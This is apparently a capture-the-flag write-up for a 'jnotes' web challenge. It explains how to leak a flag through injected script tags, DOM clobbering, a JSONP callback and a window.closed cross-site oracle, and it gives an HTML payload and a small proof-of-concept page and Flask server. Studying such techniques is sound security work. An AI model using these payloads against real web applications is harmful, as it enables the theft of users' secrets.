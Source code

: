 1. Host a site with the jnotes site in an iframe.
2. In jnotes, create the script tag `<script id="flag" src="/api/flag"></script>`
3. Create a div `<div id="a"></div>` (the id is the guessed character)
4. `window.flag.textContent[9]` returns the first character in the flag (due to the prefix `{"flag":"`)
5. Thus, `window[window.flag.textContent[9]]` returns either the div element if the first character is `a`, or `undefined` if it is not.
6. We can go from the div element to the window object, and then `postMessage` to our top-level site using `window[window.flag.textContent[9]].ownerDocument.defaultView.top.postMessage`. Create a script tag with src as our JSONP endpoint and use that as the callback.
7. So the final `noteContent` payload is (with `type="module"` to get past jquery):
   ```html
   <script type="module" id="flag" src="/api/flag"></script>
   <div id="a"></div>
   <script type="module" src="/api/view/{note_id}?callback=window[window.flag.textContent[9]].ownerDocument.defaultView.top.postMessage"></script>
   ```
8. If our site gets a message, we know the first character is `a`, otherwise we try the next character, thereby leaking the flag through binary exfiltration.

There were a few issues with this plan. Firstly, the script tag would not load `/api/flag` because its `Content-Type` was json. More importantly, we can't access the source of an external script tag, and as far as I'm aware there is no element that fetches a resource and makes it accessible from javascript.

Secondly, `postMessage` requires a second argument: the target origin. We needed something like `postMessage(_, "http://attacker.com")` or it would be blocked by CORS. Our JSONP primitive doesn't let us control the arguments, so `postMessage` fails.

I was able to solve the second issue using the `window.closed` property. Instead of an iframe, I opened the jnotes site with `window.open`, and replaced `defaultView.top.postMessage` in the JSONP callback with `defaultView.close`. From the attacker-controlled site, I then checked `window.closed` to see if the character was correct. I tested this with the following PoC:

```html:t.html
<script>
  const w = window.open('http://localhost:8000/')
  setTimeout(() => console.log(w.closed), 100)
</script>
```

```python:t_server.py
from flask import Flask

app = Flask(__name__)

@app.get('/')
def index():
    return '''<script>
  window.close({'a': 'aoeu'});
</script>'''

app.run(port=8000)
```
